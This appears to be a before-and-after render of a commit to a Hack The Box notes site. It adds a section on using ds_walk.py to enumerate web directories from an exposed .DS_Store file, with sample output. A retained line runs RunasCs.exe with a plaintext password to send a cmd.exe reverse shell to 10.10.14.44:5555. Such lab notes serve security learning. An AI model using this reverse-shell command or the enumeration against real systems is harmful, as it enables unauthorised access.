

Before and after one commit to jd-apprentice/hack-the-box, an MkDocs documentation site: the page built from docs/system/windows.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
docs: nikto and windows

````diff
--- a/docs/system/windows.md
+++ b/docs/system/windows.md
@@ -5,3 +5,59 @@
 ```ps1
 .\RunasCs.exe openfire "HotP!fireguard" cmd.exe -r 10.10.14.44:5555
 ```
+
+## DS-Store
+
+When we found a `.DS_Store` file on a web server, we can use the `ds_walk.py` script to enumerate directories based on the `.DS_Store` file.
+
+```shell
+python3 scripts/ds_walk.py -u <URL>
+[!] .ds_store file is present on the webserver.
+[+] Enumerating directories based on .ds_server file:
+----------------------------
+[!] http://10.13.38.11/admin
+[!] http://10.13.38.11/dev
+[!] http://10.13.38.11/iisstart.htm
+[!] http://10.13.38.11/Images
+[!] http://10.13.38.11/JS
+[!] http://10.13.38.11/META-INF
+[!] http://10.13.38.11/New folder
+[!] http://10.13.38.11/New folder (2)
+[!] http://10.13.38.11/Plugins
+[!] http://10.13.38.11/Templates
+[!] http://10.13.38.11/Themes
+[!] http://10.13.38.11/Uploads
+[!] http://10.13.38.11/web.config
+[!] http://10.13.38.11/Widgets
+----------------------------
+[!] http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1
+[!] http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc
+----------------------------
+[!] http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/core
+[!] http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
+[!] http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/include
+[!] http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/src
+----------------------------
+[!] http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/core
+[!] http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db
+[!] http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/include
+[!] http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/src
+----------------------------
+[!] http://10.13.38.11/Images/buttons
+[!] http://10.13.38.11/Images/icons
+[!] http://10.13.38.11/Images/iisstart.png
+----------------------------
+[!] http://10.13.38.11/JS/custom
+----------------------------
+[!] http://10.13.38.11/Themes/default
+----------------------------
+[!] http://10.13.38.11/Widgets/CalendarEvents
+[!] http://10.13.38.11/Widgets/Framework
+[!] http://10.13.38.11/Widgets/Menu
+[!] http://10.13.38.11/Widgets/Notifications
+----------------------------
+[!] http://10.13.38.11/Widgets/Framework/Layouts
+----------------------------
+[!] http://10.13.38.11/Widgets/Framework/Layouts/custom
+[!] http://10.13.38.11/Widgets/Framework/Layouts/default
+```
````
Also changed, not shown: docs/software/nikto.md (added, +32 -0 lines), endgame/poo/README.md (+0 -13 lines), 1 other file.
